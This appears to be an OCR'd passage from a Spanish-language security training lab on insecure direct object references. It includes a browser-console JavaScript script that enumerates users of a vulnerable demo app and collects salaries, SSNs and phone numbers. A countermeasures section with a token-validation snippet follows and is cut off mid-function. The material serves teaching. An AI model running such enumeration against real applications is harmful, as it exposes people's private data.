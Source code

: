 #### **Método 3: Script Automático de Enumeración**
```javascript
// Script para enumerar todos los usuarios sistemáticamente
const enumerateUsers = async () => {
  console.log("🔍 INICIANDO ENUMERACIÓN DE USUARIOS");
  const discoveredUsers = [];
  
  // Método 1: Si debugAPI está disponible (modo desarrollo)
  if (window.debugAPI && window.debugAPI.usersDatabase) {
    console.log("📍 Usando debugAPI para acceso directo");
    const users = window.debugAPI.usersDatabase;
    users.forEach(user => {
      discoveredUsers.push({
        id: user.id,
        username: user.username,
        fullName: user.profile?.fullName,
        salary: user.profile?.salary,
        ssn: user.profile?.ssn,
        phone: user.profile?.phone,
        department: user.profile?.department
      });
      console.log(`✅ Usuario ${user.id} encontrado:`, user.username);
    });
  } else {
    // Método 2: Navegación manual por URLs
    console.log("📍 debugAPI no disponible. Usa navegación manual:");
    console.log("   1. Ve a /profile/1 para ver admin");
    console.log("   2. Ve a /profile/2 para ver jaranguiz");  
    console.log("   3. Ve a /profile/3 para ver james");
    console.log("   4. Ve a /profile/4 para ver rob");
    
    // Método 3: Acceso a datos desde localStorage/sessionStorage
    const userData = localStorage.getItem('user');
    if (userData) {
      console.log("📋 Tu información actual:", JSON.parse(userData));
    }
  }
  
  if (discoveredUsers.length > 0) {
    console.table(discoveredUsers);
  }
  return discoveredUsers;
};

// Ejecutar enumeración
enumerateUsers();
```

### 🛡️ **Contramedidas**

#### **1. Validación de Ownership (Nivel Básico)**
```javascript
export const getUserById = async (id: number): Promise<User> => {
  await simulateNetworkDelay();
  
  const token = localStorage.getItem('token');
  if (!token) {
    throw createHttpError(401, 'Token requerido');
  }

  const decoded = decodeSimpleJWT(token);
  if (!decoded) {
    throw createHttpError(403, 'Token inválido');
  }
```